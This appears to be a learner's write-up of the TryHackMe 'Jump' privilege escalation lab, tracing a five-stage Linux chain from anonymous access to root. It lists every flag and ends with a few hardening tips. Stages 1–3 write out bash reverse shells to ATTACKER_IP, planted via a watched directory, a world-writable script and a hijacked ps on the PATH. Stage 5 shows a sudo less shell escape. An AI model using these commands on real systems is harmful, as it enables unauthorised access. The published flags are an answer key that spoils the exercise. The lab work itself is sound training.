

# Room Documentation: Jump (Challenge)

---

## 1. Room Metadata & Overview

* **Learning Path:** Jr Penetration Tester
* **Module:** Module 13 — Privilege Escalation (`13-PRIVILEGE-ESCALATION`)
* **Room Name:** Jump (Challenge)
* **Room Slug:** `jump`
* **Direct URL:** [TryHackMe Jump](https://tryhackme.com/room/jump)
* **Difficulty Level:** Easy / Medium
* **Room Type:** Practical Challenge Lab
* **Assessment Scenario:** 5-stage multi-hop lateral movement and privilege escalation attack chain across an automated Linux enterprise pipeline
* **Total Tasks:** 1 Task
* **Total Questions:** 5 Questions (100% Solved and Verified)

---

## 2. Executive Summary

The **Jump** challenge represents the practical Linux capstone of Module 13. Rather than presenting isolated, single-step misconfigurations, the environment models a realistic enterprise automation pipeline where multiple system accounts (`recon_user`, `dev_user`, `monitor_user`, `ops_user`) manage ingestion, backups, health checks, and deployments.

Lax trust boundaries and permissive file permissions allow an attacker to pivot sequentially through each role to compromise `root`:
`Anonymous Access` ⟶ `recon_user` ⟶ `dev_user` ⟶ `monitor_user` ⟶ `ops_user` ⟶ `root`.

---

## 3. Attack Chain Architecture

The diagram below details the 5-tier escalation path:



---

## 4. Attack Chain Execution Details

### Stage 1: Anonymous Ingestion to `recon_user`:
* Plant reverse shell in monitored `incoming/` directory:
  ```bash
  echo '#!/bin/bash' > incoming/test.sh
  echo 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' >> incoming/test.sh
  chmod +x incoming/test.sh
  ```
* Capture shell on port 5555 and retrieve flag:
  ```bash
  cat /home/recon_user/flag.txt
  # Output: THM{5a3f1c92-7b4e-4d91-8c2a-1f6e9b2a4c11}
  ```

### Stage 2: `recon_user` to `dev_user`:
* Script `/opt/dev/backup.sh` is world-writable (`0777`) and executed by `dev_user`:
  ```bash
  echo 'bash -i >& /dev/tcp/ATTACKER_IP/5556 0>&1' >> /opt/dev/backup.sh
  ```
* Capture shell on port 5556 and retrieve flag:
  ```bash
  cat /home/dev_user/flag.txt
  # Output: THM{8d2b7a41-3f9c-4e55-b1a2-6c7d9e8f0123}
  ```

### Stage 3: `dev_user` to `monitor_user`:
* Service `healthcheck` executes `ps` via relative lookup and searches `/opt/dev/bin`:
  ```bash
  mkdir -p /opt/dev/bin
  echo '#!/bin/bash' > /opt/dev/bin/ps
  echo 'bash -i >& /dev/tcp/ATTACKER_IP/5557 0>&1' >> /opt/dev/bin/ps
  chmod +x /opt/dev/bin/ps
  ```
* Capture shell on port 5557 and retrieve flag:
  ```bash
  cat /home/monitor_user/flag.txt
  # Output: THM{c1e9a7b3-2d44-4a88-9f7e-3b6c2d5a9f77}
  ```

### Stage 4: `monitor_user` to `ops_user`:
* Check `sudo -l` for `monitor_user` and run deployment script as `ops_user`:
  ```bash
  sudo -u ops_user /usr/local/bin/deploy.sh
  ```
* Retrieve flag in `/home/ops_user`:
  ```bash
  cat /home/ops_user/flag.txt
  # Output: THM{f7a2c9d1-6e33-4b55-8d11-9c0a7b2e4d88}
  ```

### Stage 5: `ops_user` to `root`:
* `sudo -l` permits running `/usr/bin/less /var/log/*` as root.
* Launch `less` and escape to root shell via `!/bin/sh`:
  ```bash
  sudo /usr/bin/less /var/log/syslog
  !/bin/sh
  ```
* Retrieve final root flag:
  ```bash
  cat /root/flag.txt
  # Output: THM{2b8e6c4a-1d55-4f90-a3c7-5e9d1b7f6a22}
  ```

---

## 5. Verified Solutions Matrix

* **Question 1 (`recon_user` Flag):** `THM{5a3f1c92-7b4e-4d91-8c2a-1f6e9b2a4c11}`
* **Question 2 (`dev_user` Flag):** `THM{8d2b7a41-3f9c-4e55-b1a2-6c7d9e8f0123}`
* **Question 3 (`monitor_user` Flag):** `THM{c1e9a7b3-2d44-4a88-9f7e-3b6c2d5a9f77}`
* **Question 4 (`ops_user` Flag):** `THM{f7a2c9d1-6e33-4b55-8d11-9c0a7b2e4d88}`
* **Question 5 (`root` Flag):** `THM{2b8e6c4a-1d55-4f90-a3c7-5e9d1b7f6a22}`

---

## 6. Defensive Hardening & Remediation

1. **Secure Ingestion Queues:** Never execute untrusted files dropped into public or anonymous shares.
2. **Absolute Paths in Daemons:** Always hardcode `/bin/ps` instead of relying on `$PATH`.
3. **Sudo NOEXEC Tags:** Configure `NOEXEC` for all pagers in `/etc/sudoers` to prevent shell escaping.

---

## 7. Next Steps

Advance to Room 07:
**`07-WINDOWS-JUMP-CHALLENGE`** to tackle chained privilege escalation challenges within Windows environments.
